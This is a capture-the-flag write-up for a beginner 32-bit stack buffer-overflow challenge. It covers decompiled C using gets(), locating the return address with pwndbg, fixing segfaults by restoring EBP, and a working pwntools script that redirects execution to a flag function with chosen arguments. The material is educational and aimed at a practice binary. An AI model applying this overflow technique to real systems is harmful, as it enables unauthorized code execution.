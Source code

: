 ## Skills required: basic pwn knowledge but comprehensive understanding of the stack

This challenge *also* serves as a nice introduction to binary exploitation ~and should be beginner-friendly enough~ (it's the challenge with the most solves).

To be frank my pwn ability has always been *trash*, and I loathe myself for forgetting to write writeup immediately after solving the challenge.

<details>
  <summary>Hint 1:</summary>
  Look up the most basic tricks in binary exploitation.
</details>

<details>
  <summary>Hint 2:</summary>
  Solve the more beginner-friendly version of this problem first. How would you adjust your solution to cater the *those* extra elements?
</details>

<details>
  <summary><b>Solution:</b></summary>
  <br/>
  Man, this took a **long** time even I had solved it before.
  
  As always, ghidra can help us reverse this 32-bit executable:
  
```c
void flag(int param_1,int param_2){ // address: 0x080491e2
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x21524111) && (param_2 == -0x3f212ff3)) {
      printf(local_50);
    }
    return;
  }
  puts("Hurry up and try in on server side.");
                    /* WARNING: Subroutine does not return */
  exit(0);
}
  
void vuln(void){
  char local_bc [180];
  
  gets(local_bc);
  puts(local_bc);
  return;
}

int main(void){
  __gid_t __rgid;
  
  setvbuf(stdout,(char *)0x0,2,0);
  __rgid = getegid();
  setresgid(__rgid,__rgid,__rgid);
  puts("You know who are 0xDiablos: ");
  vuln();
  return 0;
}
```
  
  For the negative numbers in `flag`, they can be understood as `0xdeadbeef` and `0xc0ded00d` this way:
  
  ![ghidra](https://user-images.githubusercontent.com/114584910/197023225-c36d815e-91f8-494a-bac8-38e469b1f767.png)
  
  `gets` is one of the notorious **unsafe function**.
  It's so unsafe that the [CWE entry](https://cwe.mitre.org/data/definitions/242.html) describes it as "inherently dangerous".
  
  `gets` will always write the stack memory with user input until `\n` or `EOF`.
  This means that it can rewrite the return address at the higher address, **to the flag function** which is naturally not called.
  Up to this part it was still easy for me, as this is very common in CTFs as an encouragement for *trashy* players like me to score something in the pwn category.
  
  I can supply 180A and locate the return pointer very easily with pwndbg. It's important to note any other copy higher up on the stack (lower memory address) is *junk*.
  
  ![180A](https://user-images.githubusercontent.com/114584910/197026121-d42ea506-d425-4244-a147-15b8a44278c9.png)
  
  I can now supply 188A followed by `0x080491e2`, if it were the easiest variant. There are a few problems:
  
  - Python seems to implicitly change the non-ASCII letters when I use `r < <(python3 -c 'print(...)')` in pwndbg<br/>I have to save the string to a file and supply the file to the executable
  - ![sigsegv](https://user-images.githubusercontent.com/114584910/197028333-9f785e8e-9a1c-4748-999b-435378c598f5.png)
  
  I tried solving 2 problems (resolving segfault and supplying arguments) at the same time and it took me a long time - should've divided and conquered.
  
  The reason for the segfault is that the ~original~ overwritten EBP is not in the correct range so instructions involving EBP (variable reads/sets) will give trouble.
  We can set EBP to its original value, but there's another segfault:
  
  ![sigsegv2](https://user-images.githubusercontent.com/114584910/197029941-d6714652-7731-426c-a45c-a18d17a33714.png)
  
  After many Youtube videos and research and trial-and-error, I realized that I need the whole stack context.
  To reduce the pain, here's a nice diagram showing how the stack work:
  
  ![what does the stack say](https://www.linuxjournal.com/files/linuxjournal.com/linuxjournal/articles/063/6391/6391f1.jpg)
  
  Namely we need to set *new EBP*+*flag function pointer*+*whatever*+*param1*+*param2*:
  
  My final pwntools code and some stack pics:
  
```py
from pwn import *

r = process('./vuln') # remote(...) # double checked
r.sendafter(b'\n', b"A"*184+p32(0xffffcfec)+p32(0x080491e2)+p32(0x8049318)+p32(0xdeadbeef)+p32(0xc0ded00d)+b"\n")
r.interactive()
```
  
  ![success1](https://user-images.githubusercontent.com/114584910/197021976-65de5233-382a-49cd-bc00-b4ed9bfee15e.png)
  
  ![success2](https://user-images.githubusercontent.com/114584910/197021988-31c788bf-5960-415a-865c-55559c211707.png)
  
  ![success3](https://user-images.githubusercontent.com/114584910/197021991-67a4d070-3803-4e60-a515-99d21de992c9.png)
</details>
